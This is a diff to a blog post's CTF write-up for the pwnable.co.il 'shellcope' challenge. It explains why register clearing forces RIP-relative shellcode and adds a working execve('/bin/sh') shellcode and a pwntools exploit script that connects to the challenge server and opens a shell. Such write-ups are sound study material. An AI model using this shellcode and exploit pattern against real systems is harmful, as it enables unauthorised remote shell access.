

Before and after one commit to 4f3rg4n/4f3rg4n.github.io, a Jekyll site: the page built from _posts/CTF-Writeups/2025-10-27-shellcope.md, in a window 1280 px wide and 1400 px high, scrolled down 1552 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; cached includes are drawn as plain includes; nearby versions of some CDN libraries; some of the changed text lies outside the part shown.

Commit message:
Update shellcode and exploit code in shellcope.md
Refactor shellcode implementation and improve exploit structure.

````diff
--- a/_posts/CTF-Writeups/2025-10-27-shellcope.md
+++ b/_posts/CTF-Writeups/2025-10-27-shellcope.md
@@ -42,44 +42,93 @@ int __fastcall main(int argc, const char **argv, const char **envp)
 }
 ```
 
-`reset_shellcodes` points to a sequence of opcodes stored in the `.data` section:
+`reset_shellcodes` points to a sequence of opcodes stored in the `.data` section, the main function maps a 0x1000 bytes (page size - 4096 in decimal) using `mmap()`, copies the predefined opcodes from `reset_shellcodes` into that page using `strcpy()`,
+then reads up to `4047` bytes from `stdin` into the page starting at offset 48 (appending the user provided instructions).
+It then calls `mprotect()` to set the page permissions to `read + execute` and finally jumps to the mapped page to run the combined shellcodes.
+
 
 [![static symbols](/assets/images/ctf-writeups/pwnable.co.il/shellcope/reset_shellcodes_dump.png)](/assets/images/ctf-writeups/pwnable.co.il/shellcope/reset_shellcodes_dump.png)
 
-The main function maps a 0x1000 bytes (page size - 4096 in decimal) using `mmap()`, copies the predefined opcodes from `reset_shellcodes` into that page using `strcpy()`,
-then reads up to `4047` bytes from `stdin` into the page starting at offset 48 (appending the user provided instructions).
-It then calls `mprotect()` to set the page permissions to `read + execute` and finally jumps to the mapped page to run the combined shellcodes.
+This code clears all the registers, including the stack registers `RBP` and `RSP`.
+That makes implementing a `shell-spawning` shellcode harder, because we cant use the stack to hold the string `"/bin/sh"`.
+
+One way around this is to embed the `"/bin/sh"` string inside the shellcode itself and use the `RIP` register (which isnt cleared by the XOR) as a pointer to that string.
+
+### Non-stack based shellcode
+```asm
+jmp code
+
+shell:
+    .ascii "/bin/sh\\x00"
+
+code:
+    lea rdi, [rip+shell]
+    mov al, 0x3b
+    syscall
+```
+
+This shellcode loads the address of `"/bin/sh"` into `RDI`, sets `AL` to `0x3b` (the execve syscall), and then makes the syscall.
 
 ## Exploit
 ```python
+#!/usr/bin/env python3
+# -*- coding: utf-8 -*-
 from pwn import *
 
+exe = context.binary = ELF(args.EXE or './shellcope')
+
+### config ###
+host = args.HOST or 'pwnable.co.il'
+port = int(args.PORT or 9001)
+
+### defines ###
+shellcode = """
+jmp code
+
+shell:
+    .ascii "/bin/sh\\x00"
+
+code:
+    lea rdi, [rip+shell]
+    mov al, 0x3b
+    syscall
+"""
+
+def start_local(argv=[], *a, **kw):
+    '''Execute the target binary locally'''
+    if args.GDB:
+        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
+    else:
+        return process([exe.path] + argv, *a, **kw)
+
+def start_remote(argv=[], *a, **kw):
+    '''Connect to the process on the remote host'''
+    io = connect(host, port)
+    if args.GDB:
+        gdb.attach(io, gdbscript=gdbscript)
+    return io
+
+def start(argv=[], *a, **kw):
+    '''Start the exploit against the target.'''
+    if args.LOCAL:
+        return start_local(argv, *a, **kw)
+    else:
+        return start_remote(argv, *a, **kw)
+
+gdbscript = '''
+tbreak main
+continue
+'''.format(**locals())
+
+# -- Exploit goes here --
 def main():
-    ### context ###
-    context.arch = 'amd64'  # Ensure 64-bit architecture
+    ### run ###
+    io = start()
 
-    ### run ###
-    #p = process("./shellcope")
-    p = remote("pwnable.co.il", 9001)
+    log.info("sending shellcode...")
+    io.sendline(asm(shellcode))
 
-    ### payload start ###
-    shellcode = """
-    jmp code
-
-    shell:
-        .ascii "/bin/sh\\x00"
-
-    code:
-        xor rsi, rsi
-        xor rdx, rdx
-        lea rdi, [rip+shell]
-        mov al, 0x3b
-        syscall
-    """
-
-    payload = asm(shellcode)
-    p.sendline(payload)
-    p.interactive()
+    io.interactive()
 
 if __name__ == "__main__":
     main()
````
